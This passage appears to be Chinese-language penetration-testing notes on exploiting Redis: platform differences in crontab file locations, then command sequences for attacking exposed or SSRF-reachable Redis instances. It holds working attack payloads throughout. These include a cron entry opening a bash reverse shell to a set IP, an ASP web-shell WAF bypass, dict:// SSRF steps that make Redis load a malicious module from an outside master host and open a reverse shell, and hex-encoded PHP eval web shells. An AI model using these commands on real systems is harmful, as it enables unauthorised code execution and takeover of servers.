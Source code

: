 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件/var/spool/cron/crontabs/<username>权限必须是600也就是-rw-------才会执行，否则会报错(root) INSECURE MODE (mode 0600 expected)，而Centos的定时任务文件/var/spool/cron/<username>权限644也能执行

因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错

由于系统的不同，crontrab定时文件位置也会不同
Centos的定时任务文件在/var/spool/cron/<username>
Ubuntu定时任务文件在/var/spool/cron/crontabs/<username>
Centos和Ubuntu均存在的（需要root权限）/etc/crontab PS：高版本的redis默认启动是redis权限，故写这个文件是行不通的

构造redis的命令如下：
```
flushall
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.163.132/2333 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save
```

### 排错
发现写入不了，随后设置了读写权限 ：
`config set slave-read-only on`
### 绕waf
发现是 404，写 asp 是 500，应该是什么规则拦截了。
随后 bypass 测试，只能上传 asp，而且还可以通过这样绕过：（单引号中间要带空格）
`set x '    <%execute(request("x"))%>    '`
## ssrf
### dict
dict只能执行一条命令dict://0.0.0.0:6379/auth pass，所以无法用来攻击需要认证的redis
+ rce
```
 1.连接远程主服务器
 url=dict://127.0.0.1:6379/slaveof:82.157.178.58:8443
2.设置保存文件名
 url=dict://127.0.0.1:6379/config:set:dbfilename:exp.so
3.载入 exp.so
 url=dict://127.0.0.1:6379/MODULE:LOAD:./exp.so
4.断开主从
 url=dict://127.0.0.1:6379/SLAVEOF:NO:ONE
5.恢复原始文件名
 url=dict://127.0.0.1:6379/config:set:dbfilename:dump.rdb
6.执行命令
 url=dict://127.0.0.1:6379/system.exec:id
 带参数的命令:system.exec:mkdir<>111
7.反弹 shell
url=dict://127.0.0.1:6379/system.rev:x.x.x.x:8887
```
+ 认证
```
url=dict://127.0.0.1:6379/auth:password
```
+ 写文件
```
url=dict://192.168.124.153:6380/config:set:dir:/var/www/html
url=dict://192.168.124.153:6380/config:set:dbfilename:webshell.php
//如果存在payload被转义或有过滤情况，可利用16进制，写入webshell
//phpinfo
url=dict://192.168.124.153:6380/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x3b\x20\x3f\x3e"
//一句话
url=dict://192.168.124.153:6380/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x27\x63\x6d\x64\x27\x5d\x29\x3b\x20\x3f\x3e"
```
+ 计划任务反弹shell